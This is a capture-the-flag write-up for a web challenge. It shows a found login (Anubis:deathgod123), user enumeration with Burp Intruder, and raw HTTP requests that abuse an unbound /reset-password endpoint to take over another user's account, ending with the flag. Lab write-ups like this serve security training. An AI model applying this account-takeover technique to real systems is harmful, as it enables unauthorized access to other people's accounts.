 ![](The_Forgotten_Temple_Login_Form.png)

Clicking "The Scroll of Gods" button we download a txt file called usernames.txt

And maybe have a password: deathgod123




In page source:
```html
       <!-- Right section: Login + Password Reset (for Anubis) -->
        <div class="form-section">
            

            <!-- LOGIN FORM -->
            
                <form method="POST">
                    <label>Username:</label>
                    <input type="text" name="username" required><br>
                    <label>Password:</label>
                    <input type="password" name="password" required><br>
                    <button type="submit">Enter the Temple</button>
                </form>
            
        </div>
    </div>
    <script>
        document.getElementById("resetForm")?.addEventListener("submit", function(event) {
            event.preventDefault();
            let username = document.getElementById("resetUsername").value;
            let newPassword = document.getElementById("newPassword").value;

            fetch("/reset-password", {
                method: "POST",
                headers: { "Content-Type": "application/x-www-form-urlencoded" },
                body: `username=${username}&new_password=${newPassword}`
            })
            .then(response => response.json())
            .then(data => {
                document.getElementById("resetMessage").innerText = data.message;
                if (data.success) {
                    document.getElementById("resetForm").classList.add("hidden");
                }
            });
        });
    </script>
```


Successful login:
Anubis:deathgod123

![](The_Forgotten_Temple_Reset_Pw.png)



Request for resetting the password.
```
POST /reset-password HTTP/1.1
Host: 207.154.240.240:43243
Content-Length: 39
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://207.154.240.240:43243
Referer: http://207.154.240.240:43243/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VyIjoiQW51YmlzIn0.aBOVNA.Qt4TfAY7Nz8RgY9J0fba_QaP4tE
Connection: keep-alive

username=Anubis&new_password=New_anubis
```

This changes the password for the Anubis user.

Let's use the intruder to find the "true ruler".

Anubis and Khonsu gives this error of "Incorrect password" so this to account could be targeted. But the comment only mentions Anubis to login for reseting password. Let's try to reset the password with our second found user (Khonsu).

![](The_Forgotten_Temple_Intruder.png)

```
<!-- Right section: Login + Password Reset (for Anubis) -->
    <div class="form-section">        
    <p style="color: red;">Incorrect password</p>
```


```http
POST /reset-password HTTP/1.1
Host: 207.154.240.240:43243
Content-Length: 39
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://207.154.240.240:43243
Referer: http://207.154.240.240:43243/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VyIjoiQW51YmlzIn0.aBOVNA.Qt4TfAY7Nz8RgY9J0fba_QaP4tE
Connection: keep-alive

username=Khonsu&new_password=pwned123
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Thu, 01 May 2025 15:42:46 GMT
Content-Type: application/json
Content-Length: 58
Connection: close

{"message":"Password successfully reset!","success":true}
```

By using a cookie we can change the password for "Khonsu". So the cookie isn't tied to a user session.

![](The_Forgotten_Temple_Solved.png)

Flag: O24{73mp13_53cr37s_Unv31l3d}

